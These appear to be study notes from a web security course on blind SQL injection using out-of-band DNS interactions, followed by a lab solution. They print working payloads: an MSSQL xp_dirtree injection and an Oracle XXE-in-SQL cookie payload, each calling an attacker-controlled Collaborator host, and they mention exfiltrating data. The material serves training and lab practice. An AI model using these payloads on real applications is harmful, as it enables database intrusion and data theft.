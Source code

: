 An application might carry out the same SQL query as the previous example but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

>[!Example]
>The lab solution

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
2. Modify the `TrackingId` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
    
`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--`

3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. 
